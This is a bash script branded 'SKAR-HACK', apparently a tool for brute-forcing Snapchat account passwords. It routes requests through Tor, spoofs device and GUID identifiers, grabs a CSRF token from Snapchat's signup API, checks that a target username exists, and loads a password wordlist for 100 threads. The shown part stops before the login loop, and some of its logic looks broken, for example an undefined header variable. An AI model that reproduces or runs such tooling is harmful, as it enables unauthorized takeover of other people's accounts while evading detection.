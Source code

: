 #!/bin/bash


trap 'store; exit 1;' 2

counter=0
counter2=20
counter3=40
counter4=60
counter5=80
start=0
end=20
turn=$((start+end))
startline=1
endline=20
sumstart=0
string4=$(openssl rand -hex 32 | cut -c 1-4)
string8=$(openssl rand -hex 32  | cut -c 1-8)
string12=$(openssl rand -hex 32 | cut -c 1-12)
string16=$(openssl rand -hex 32 | cut -c 1-16)
device="android-$string16"
uuid=$(openssl rand -hex 32 | cut -c 1-32)
phone="$string8-$string4-$string4-$string4-$string12"
guid="$string8-$string4-$string4-$string4-$string12"
var0=$(curl --socks5 localhost:9051 -i -s -H "$header" https://accounts.snapchat.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=$uuid > /dev/null)
var2=$(echo $var0 | grep -o 'csrftoken=.*' | cut -d ';' -f1 | cut -d '=' -f2)


banner() {

printf "\e[1;95m                             ______           \e[0m\n"
printf "\e[1;95m                          .-        -.         \e[0m\n"
printf "\e[1;95m                         / SKAR-HACK  \         \e[0m\n"
printf "\e[1;95m                           ---------             \e[0m\n"
printf "\e[1;95m                        |,  .-.  .-.  ,|         \e[0m\n" 
printf "\e[1;77m                        | )(_ /  \_ )( |             \e[0m\n"
printf "\e[1;77m                        |/     /\     \|               \e[0m\n"
printf "\e[1;91m              (@_       <__    ^^    __>                          \e[0m\n"
printf "\e[1;91m         _     ) \_______\__|IIIIII|__/________________________     \e[0m\n"
printf "\e[1;91m        (_)@8@8{}<________ ____________________________________>     \e[0m\n"
printf "\e[1;91m               )_/         \ IIIIII /                                  \e[0m\n"
printf "\e[1;91m              (@            --------                                   \e[0m\n"

printf "\e[1;91m                   SKAR HACK (Telegram-skar44)  \e[0m\n" 
}


function start() {
read -p $'\e[1;92mUsername account: \e[0m' user
checkaccount=$(curl -L -s https://www.snapchat.com/$user/ | grep -c "the page may have been removed")
if [[ "$checkaccount" == 1 ]]; then
printf "\e[1;91mInvalid Username! Try again\e[0m\n"
sleep 1
start
else
default_wl_pass="passwords.lst"
read -p $'\e[1;92mPassword List (Enter to default list): \e[0m' wl_pass
wl_pass="${wl_pass:-${default_wl_pass}}"
default_threads="100"
threads="${threads:-${default_threads}}"
fi
}
